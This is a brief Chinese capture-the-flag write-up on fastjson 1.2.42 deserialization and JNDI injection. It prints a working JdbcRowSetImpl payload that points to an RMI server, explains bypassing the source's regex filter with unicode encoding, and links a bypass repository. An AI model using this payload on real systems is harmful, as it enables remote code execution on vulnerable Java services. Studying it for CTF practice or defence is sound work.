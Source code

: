 >考点：
>
>fastjson反序列化
>
>jndi注入

fastjson版本号**1.2.42** 

这里采用 [Fastjson1.2.25-1.2.47通杀](https://github.com/safe6Sec/Fastjson)

```json
payload={"theoyu":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"theoyu":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/lc9te0","autoCommit":true}}
```

本地起jndi，注意到源码是有正则过滤的，这里用unicode全部编码即可。

![image-20211227172702360](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211227172702.png)

![image-20211227165838542](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211227165838.png)

fastjson保姆级文章：@su18[fastjson：我一路向北，离开有你的季节](https://su18.org/post/fastjson/)